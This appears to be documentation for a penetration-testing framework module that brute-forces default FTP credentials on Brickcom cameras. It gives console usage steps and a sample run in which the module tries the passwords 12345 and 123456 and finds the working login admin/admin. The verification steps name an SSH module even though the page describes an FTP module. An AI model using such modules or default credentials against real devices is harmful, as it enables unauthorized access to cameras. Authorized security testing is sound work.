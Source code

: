 ## Description

Module performs dictionary attack with default credentials against Brickcom Camera FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use creds/cameras/brickcom/ssh_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/cameras/brickcom/ftp_default_creds
rsf (Brickcom Camera Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Brickcom Camera Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
